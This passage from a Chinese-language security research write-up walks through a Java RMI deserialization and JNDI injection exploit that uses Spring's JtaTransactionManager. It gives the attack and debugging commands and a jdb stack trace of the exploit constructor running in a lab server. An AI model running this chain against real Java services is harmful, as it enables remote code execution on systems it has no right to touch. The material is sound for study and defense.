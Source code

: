 当前Java版本是8u232，必须设置两个trustURLCodebase才能得手，8u40无此必要。
SomeDynamicServer3在JNDI注入过程中扮演JNDI客户端的角色。

在test2目录执行:

java \
-cp ".:spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar" \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
EvilClientWithJtaTransactionManager any "msg from client" rmi://192.168.65.23:1099/attack

注意-cp中当前目录最先出现，这样才能使用fake版JtaTransactionManager。

如果一切顺利，恶意构造函数ExploitObject()将在SomeDynamicServer3进程空间得
到执行，输出"scz is here"，生成"/tmp/scz_is_here"。

14.4.1) ExploitObject()调用栈回溯

调试SomeDynamicServer3:

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true \
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
-cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:commons-logging-1.2.jar:spring-beans-4.2.4.RELEASE.jar:javax.transaction-api-1.2.jar:spring-context-4.2.4.RELEASE.jar:." \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeDynamicServer3 any

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in ExploitObject.<init>

  [1] ExploitObject.<init> (ExploitObject.java:9), pc = 0
  [2] sun.reflect.NativeConstructorAccessorImpl.newInstance0 (native method)
  [3] sun.reflect.NativeConstructorAccessorImpl.newInstance (NativeConstructorAccessorImpl.java:62), pc = 85
  [4] sun.reflect.DelegatingConstructorAccessorImpl.newInstance (DelegatingConstructorAccessorImpl.java:45), pc = 5
  [5] java.lang.reflect.Constructor.newInstance (Constructor.java:423), pc = 79
  [6] java.lang.Class.newInstance (Class.java:442), pc = 138
  [7] javax.naming.spi.NamingManager.getObjectFactoryFromReference (NamingManager.java:163), pc = 46
  [8] javax.naming.spi.NamingManager.getObjectInstance (NamingManager.java:319), pc = 94
  [9] com.sun.jndi.rmi.registry.RegistryContext.decodeObject (RegistryContext.java:499), pc = 97
  [10] com.sun.jndi.rmi.registry.RegistryContext.lookup (RegistryContext.java:138), pc = 75
  [11] com.sun.jndi.toolkit.url.GenericURLContext.lookup (GenericURLContext.java:205), pc = 23
  [12] javax.naming.InitialContext.lookup (InitialContext.java:417), pc = 6
  [13] org.springframework.jndi.JndiTemplate$1.doInContext (JndiTemplate.java:155), pc = 5
  [14] org.springframework.jndi.JndiTemplate.execute (JndiTemplate.java:87), pc = 7
  [15] org.springframework.jndi.JndiTemplate.lookup (JndiTemplate.java:152), pc = 55
  [16] org.springframework.jndi.JndiTemplate.lookup (JndiTemplate.java:179), pc = 2
  [17] org.springframework.transaction.jta.JtaTransactionManager.lookupUserTransaction (JtaTransactionManager.java:571), pc = 52
  [18] org.springframework.transaction.jta.JtaTransactionManager.initUserTransactionAndTransactionManager (JtaTransactionManager.java:448), pc = 23
  [19] org.springframework.transaction.jta.JtaTransactionManager.readObject (JtaTransactionManager.java:1,206), pc = 16
  [20] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [21] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [22] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [23] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [24] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,170), pc = 24
  [25] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:2,177), pc = 119
  [26] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:2,068), pc = 183
  [27] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,572), pc = 401
  [28] java.io.ObjectInputStream.readObject (ObjectInputStream.java:430), pc = 19
  [29] sun.rmi.server.UnicastRef.unmarshalValue (UnicastRef.java:322), pc = 171